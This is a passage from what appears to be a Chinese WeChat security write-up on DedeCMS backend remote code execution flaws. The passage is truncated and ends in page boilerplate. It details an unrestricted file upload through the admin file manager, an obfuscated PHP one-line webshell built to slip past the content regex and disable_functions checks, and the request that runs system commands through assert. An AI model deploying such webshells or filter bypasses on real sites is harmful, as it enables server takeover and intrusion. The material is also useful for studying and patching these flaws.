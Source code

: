 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222219.png)

配置文件内容

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222220.png)

比较有意思的是这里没有做转义，依旧可以实现RCE

##### RCE2

文件上传

> /dede/file_manage_view.php?fmdo=newfile&activepath=/uploads/uploads

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222221.png)

这里可以直接上传php文件，并没有做限制

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222222.png)

但是后台有校验文件内容

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222223.png)

一句话直接被拦，回头看代码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222224.png)

这里是有`disable_function`以及正则的，所以所有的文件上传就是围绕如何`绕过`

    
    
    <?php  
    $a = $GLOBALS["_GET"];  
    $b = $GLOBALS["_GET"];  
    $a['test1']($b['test2'])  
    ?>

这里只要是绕过正则，都可以，免杀的一句话都没问题。

> http://dedecms.org:8016/uploads/shell.php

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222225.png)

当然，这里使用`assert`执行跟php版本有关

>
> http://dedecms.org:8016/uploads/shell.php?test1=assert&&test2=system(%22ipconfig%22);

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222226.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

